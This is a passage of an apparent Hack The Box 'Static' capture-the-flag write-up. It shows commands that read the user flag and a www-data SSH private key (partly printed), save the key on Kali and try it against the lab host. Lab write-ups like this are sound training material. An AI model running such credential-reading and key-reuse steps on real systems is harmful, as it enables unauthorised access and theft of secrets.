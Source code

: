 Unusually the user flag is in the root of /home, let's grab it while we're here:

```text
cat /home/user.txt
<HIDDEN>
```

Looking in our users home folder we find something useful:

```sh
ls -lsa /home/www-data
0 lrwxrwxrwx 1 root     root        9 Jun 14 08:02 .bash_history -> /dev/null
4 drwx------ 2 www-data www-data 4096 Jun 14 08:00 .cache
4 drwx------ 2 www-data www-data 4096 Jun 14 07:54 .ssh

ls -lsa /home/www-data/.ssh
4 -rw-r--r-- 1 www-data www-data  390 Jun 14 07:54 authorized_keys
4 -rw------- 1 www-data www-data 1675 Jun 14 07:34 id_rsa
4 -rw-r--r-- 1 www-data www-data  390 Jun 14 07:34 id_rsa.pub

cat /home/www-data/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
<SNIP>
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----
```

Let's move from this Metasploit shell to a nice stable SSH conneciton. Copy the private key we've found and echo in to a file on Kali:

```text
┌──(root💀kali)-[~/htb/static]
└─# echo "-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
<SNIP>
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----" > id_rsa

┌──(root💀kali)-[~/htb/static]
└─# chmod 600 id_rsa
```

I tried using the SSH key to connect to the main static box:

```sh
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa_www-data www-data@10.10.10.246
www-data@10.10.10.246's password: 
Permission denied, please try again.
www-data@10.10.10.246's password: 
Permission denied, please try again.
www-data@10.10.10.246's password: 
www-data@10.10.10.246: Permission denied (publickey,password).
```
